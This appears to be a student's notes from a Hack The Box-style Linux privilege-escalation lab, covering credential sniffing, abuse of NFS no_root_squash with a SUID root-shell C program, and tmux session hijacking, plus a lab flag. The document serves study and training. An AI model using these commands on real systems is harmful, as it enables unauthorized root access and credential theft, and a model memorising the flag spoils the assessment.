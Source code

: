 # Miscellaneous Techniques

## Passive Traffic Capture

* &#x20;If `tcpdump` is installed, low priv users may capture credentials in cleartext over the network.&#x20;
* [net-creds](https://github.com/DanMcInerney/net-creds) and [PCredz](https://github.com/lgandx/PCredz) can be used to examine data being passed on the wire.
  * Resulting in capturing sensitive information such as credit card numbers and SNMP community strings.&#x20;
  * also possible to capture Net-NTLMv2, SMBv2, or Kerberos hashes, which could then be brute-forced.&#x20;
* Cleartext protocols such as HTTP, FTP, POP, IMAP, telnet, or SMTP may contain credentials that could be reused to escalate privileges on the host.

## Weak NFS Privileges

&#x20;`showmount -e` lists the NFS server's export list (or the access control list for filesystems) that NFS clients.

```bash
showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

When an NFS volume is created, various options can be set:

<table><thead><tr><th width="196">Option</th><th>Description</th></tr></thead><tbody><tr><td><code>root_squash</code></td><td>If the root user is used to access NFS shares, it will be changed to the <code>nfsnobody</code> user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the <code>nfsnobody</code> user, which prevents an attacker from uploading binaries with the SUID bit set.</td></tr><tr><td><code>no_root_squash</code></td><td>Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.</td></tr></tbody></table>

```bash
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

For example, we can create a SETUID binary that executes `/bin/sh` using our local root user. We can then mount the `/tmp` directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

Create a simple binary, mount the directory locally, copy it, and set the necessary permissions.

```shell-session
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```shell-session
htb@NIX02:/tmp$ gcc shell.c -o shell
```

```shell-session
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.

```shell-session
htb@NIX02:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

```shell-session
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Hijacking Tmux Sessions

&#x20;When not working in a `tmux` window, we can detach from the session, still leaving it active (i.e., running an `nmap` scan). For many reasons, a user may leave a `tmux` process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.

```shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

If we can compromise a user in the `dev` group, we can attach to this session and gain root access.

Check for any running `tmux` processes.

```shell-session
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Confirm permissions.

```shell-session
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Review our group membership.

```shell-session
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Finally, attach to the `tmux` session and confirm root privileges.

```shell-session
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```

## Assessment

Review the NFS server's export list and find a directory holding a flag.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>fc8c065b9384beaa162afe436a694acf</p></figcaption></figure>

Tried every way to get root using the c code but no luck not sure what went wrong, the code could be executed and the new shell session was spawned everytime but just didn't spawned as root 😢

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption><p>when chmod the file, we have to be root!!!!!</p></figcaption></figure>

<mark style="color:red;">**Don't forget to sudo su before chmod the shell!!!**</mark>
